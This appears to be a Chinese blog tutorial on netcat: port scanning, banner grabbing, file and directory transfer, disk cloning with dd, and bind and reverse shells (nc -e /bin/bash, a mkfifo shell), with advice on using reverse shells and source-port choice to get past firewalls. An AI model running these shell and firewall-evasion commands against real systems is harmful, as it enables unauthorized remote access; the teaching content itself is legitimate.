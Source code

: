 ```yaml
---
title: 'netcat skills '
date: 2018-09-23 18:24:25
tags: Linux
---
```


# Linux netcat 命令实例：

## 端口扫描

端口扫描经常被系统管理员和黑客用来发现在一些机器上开放的端口，帮助他们识别系统中的漏洞。

``
$nc -z -v -n 172.31.100.7 21-25
``

可以运行在TCP或者UDP模式，默认是TCP，-u参数调整为udp.

z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换

v 参数指使用冗余选项

n 参数告诉netcat 不要使用DNS反向查询IP地址的域名

这个命令会打印21到25 所有开放的端口。Banner是一个文本，Banner是一个你连接的服务发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。

一旦你发现开放的端口，你可以容易的使用netcat 连接服务抓取他们的banner。

``
$ nc -v 172.31.100.7 21
``

netcat 命令会连接开放端口21并且打印运行在这个端口上服务的banner信息。

<!-- more -->

## Chat Server

假如你想和你的朋友聊聊，有很多的软件和信息服务可以供你使用。但是，如果你没有这么奢侈的配置，比如你在计算机实验室，所有的对外的连接都是被限制的，你怎样和整天坐在隔壁房间的朋友沟通那？不要郁闷了，netcat提供了这样一种方法，你只需要创建一个Chat服务器，一个预先确定好的端口，这样子他就可以联系到你了。

Server
``
$nc -l 1567
``
netcat 命令在1567端口启动了一个tcp 服务器，所有的标准输出和输入会输出到该端口。输出和输入都在此shell中展示。

Client
``
$nc 172.31.100.7 1567
``
不管你在机器B上键入什么都会出现在机器A上。

## 文件传输

大部分时间中，我们都在试图通过网络或者其他工具传输文件。有很多种方法，比如FTP,SCP,SMB等等，但是当你只是需要临时或者一次传输文件，真的值得浪费时间来安装配置一个软件到你的机器上嘛。假设，你想要传一个文件file.txt 从A 到B。A或者B都可以作为服务器或者客户端，以下，让A作为服务器，B为客户端。

Server
``
$nc -l 1567 < file.txt
``
Client
``
$nc -n 172.31.100.7 1567 > file.txt
``
这里我们创建了一个服务器在A上并且重定向netcat的输入为文件file.txt，那么当任何成功连接到该端口，netcat会发送file的文件内容。

在客户端我们重定向输出到file.txt，当B连接到A，A发送文件内容，B保存文件内容到file.txt.

没有必要创建文件源作为Server，我们也可以相反的方法使用。像下面的我们发送文件从B到A，但是服务器创建在A上，这次我们仅需要重定向netcat的输出并且重定向B的输入文件。

B作为Server

Server
``
$nc -l 1567 > file.txt
``
Client
``
nc 172.31.100.23 1567 < file.txt
``
## 目录传输

发送一个文件很简单，但是如果我们想要发送多个文件，或者整个目录，一样很简单，只需要使用压缩工具tar，压缩后发送压缩包。

如果你想要通过网络传输一个目录从A到B。

Server
``
$tar -cvf – dir_name | nc -l 1567
``
Client
``
$nc -n 172.31.100.7 1567 | tar -xvf -
``
这里在A服务器上，我们创建一个tar归档包并且通过-在控制台重定向它，然后使用管道，重定向给netcat，netcat可以通过网络发送它。

在客户端我们下载该压缩包通过netcat 管道然后打开文件。

如果想要节省带宽传输压缩包，我们可以使用bzip2或者其他工具压缩。

Server
``
$tar -cvf – dir_name| bzip2 -z | nc -l 1567
``
通过bzip2压缩

Client
``
$nc -n 172.31.100.7 1567 | bzip2 -d |tar -xvf -
``
使用bzip2解压

## 加密你通过网络发送的数据

如果你担心你在网络上发送数据的安全，你可以在发送你的数据之前用如mcrypt的工具加密。

服务端
``
$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
``
使用mcrypt工具加密数据。

客户端
``
$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567
``
使用mcrypt工具解密数据。

以上两个命令会提示需要密码，确保两端使用相同的密码。

这里我们是使用mcrypt用来加密，使用其它任意加密工具都可以。

## 流视频

虽然不是生成流视频的最好方法，但如果服务器上没有特定的工具，使用netcat，我们仍然有希望做成这件事。

服务端
``
$cat video.avi | nc -l 1567
``
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端
``
$nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -
``
这里我们从socket中读入数据并重定向到mplayer。

## 克隆一个设备

如果你已经安装配置一台Linux机器并且需要重复同样的操作对其他的机器，而你不想在重复配置一遍。不在需要重复配置安装的过程，只启动另一台机器的一些引导可以随身碟和克隆你的机器。

克隆Linux PC很简单，假如你的系统在磁盘/dev/sda上

Server
``
$dd if=/dev/sda | nc -l 1567
``
Client
``
$nc -n 172.31.100.7 1567 | dd of=/dev/sda
``
dd是一个从磁盘读取原始数据的工具，我通过netcat服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。但是如果我们已经做过分区并且只需要克隆root分区，我们可以根据我们系统root分区的位置，更改sda 为sda1，sda2.等等。

## 打开一个shell

我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

Server
``
$nc -l 1567 -e /bin/bash -i
``
Client
``
$nc 172.31.100.7 1567
``
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server
``
$mkfifo /tmp/tmp_fifo

$cat /tmp/tmp_fifo | /bin/sh -i 2>1 | nc -l 1567 > /tmp/tmp_fifo
``
这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2\>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client
``
$nc -n 172.31.100.7 1567
``
你会得到一个shell提示符在客户端

反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端
``
$nc -l 1567
``
在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端
``
$nc 172.31.100.7 1567 -e /bin/bash
``
现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

# 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端
``
$nc -l 1567
``
客户端
``
$nc 172.31.100.7 1567 -p 25
``
使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
